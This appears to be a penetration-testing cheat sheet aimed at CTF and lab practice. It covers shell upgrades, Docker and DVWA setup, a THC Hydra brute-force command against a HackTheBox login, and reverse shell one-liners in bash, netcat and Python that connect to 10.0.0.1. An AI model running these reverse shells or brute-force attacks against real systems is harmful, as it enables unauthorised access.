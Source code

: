 ### Python simple HTTP server
```Python
python -m SimpleHTTPServer 
```
### Kali Linux assign two network interfaces
Edit `/etc/network/interfaces` and add these lines
```
auto eth0 
iface eth0 inet dhcp 
 
 
auto eth1 
iface eth1 inet dhcp 

```
And then restart the network with following commands.
```bash
systemctl stop networking 
systemctl start networking 
```
### Get interactive bash shell using python
```Python
python -c "import pty;pty.spawn('/bin/bash')"
```
### Get interactive bash shell using OS.System
```
echo os.system('/bin/bash')
```
## Helpful firefox addons
### FoxyProxy
> FoxyProxy is a Firefox extension which automatically switches an internet connection across one or more proxy servers based on URL patterns. Put simply, FoxyProxy automates the manual process of editing Firefox's Connection Settings dialog. Proxy server switching occurs based on the loading URL and the switching rules you define
### Fireforce
> brute-force attacks on GET or POST forms

## Brute-force techniques
### THC Hydra
```bash
# hydra -l admin -P /usr/share/wordlist/rockyou.txt docker.hackthebox.eu http-post-form "/:password=^PASS^:Invalid password!" -s 35644
```
## Docker
### Install Docker
#### Add Docker PGP key:

```bash
# curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
```

#### Configure Docker APT repository:

```bash
# echo 'deb https://download.docker.com/linux/debian stretch stable' > /etc/apt/sources.list.d/docker.list
```

#### Update APT:

```bash
# apt-get update
```

#### Install Docker

If you had older versions of Docker installed, uninstall them:

```bash
# apt-get remove docker docker-engine docker.io
```
Install Docker:

```bash
# apt-get install docker-ce
```
#### Post Install settings
```bash
# systemctl start docker
# systemctl enable docker
```
#### Testing
```bash
# docker run hello-world
```
### Setup DVWA
```bash
# docker run -d -p 80:80 citizenstig/dvwa
```

## Reverse shell techniques
### Bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Netcat
```bash
nc -e /bin/sh 10.0.0.1 1234
```
### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

